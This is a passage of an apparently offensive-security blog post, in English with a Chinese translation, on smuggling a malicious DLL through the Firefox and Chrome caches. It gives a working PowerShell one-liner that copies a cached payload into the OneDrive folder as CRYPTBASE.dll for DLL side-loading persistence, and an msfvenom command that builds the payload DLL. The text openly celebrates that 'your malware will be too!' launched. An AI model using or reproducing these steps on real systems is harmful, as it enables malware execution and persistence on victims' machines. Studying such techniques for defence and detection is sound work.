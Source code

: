 The following PowerShell one liner will look for the DLL in the cache directory and move it to an appropriate place, such as the OneDrive folder in order to launch a DLL side loading attack:  
以下 PowerShell 单行将在缓存目录中查找 DLL，并将其移动到适当的位置，例如 OneDrive 文件夹，以便发起 DLL 端加载攻击：

```powershell
foreach($f in @("$env:LOCALAPPDATA\Mozilla\Firefox\Profiles\*.default-release\cache2\entries\")){gci $f -r|%{if(Select-String -Pattern "DLLHERE" -Path $_.FullName){cp $_.FullName $env:LOCALAPPDATA\Microsoft\OneDrive\CRYPTBASE.dll}}}
```

Next time OneDrive is launched, your malware will be too!  
下次启动 OneDrive 时，您的恶意软件也会启动！

# IV/ What about Google Chrome  
IV/ 谷歌浏览器呢

The way Google Chrome stores files in its cache is a little more complicated to exploit. Indeed, files are not stored individually, they are stored in multiple databases located in the %LOCALAPPDATA%\\Google\\Chrome\\User Data\\Default\\Cache\\Cache\_Data folder:  
Google Chrome 在其缓存中存储文件的方式有点复杂。事实上，文件不是单独存储的，它们存储在位于 %LOCALAPPDATA%\\Google\\Chrome\\User Data\\Default\\Cache\\Cache\_Data 文件夹中的多个数据库中：

![](assets/1701827279-e0d7a28cd28a98c0c45f52c533c67f01.png)

As such, retrieving cached files means manipulating the database and this is not easy, especially with PowerShell. At this point I thought it was impossible to weaponize this technique for Chrome until @shifttymike sent me this message:  
因此，检索缓存文件意味着操作数据库，这并不容易，尤其是在使用 PowerShell 时。在这一点上，我认为不可能将这种技术武器化到 Chrome 中，直到@shifttymike给我发了这条消息：

![](assets/1701827279-fb5c733d8f2b2d1b959d7b04fbff1c2d.png)

And that is brilliant! Here is how I put up things together. First we create the DLL via msfvenom:  
这太棒了！这是我如何把东西放在一起的。首先，我们通过 msfvenom 创建 DLL：

```bash
msfvenom -a x86 --platform windows -p windows/exec cmd=calc.exe -f dll > calc.dll
```
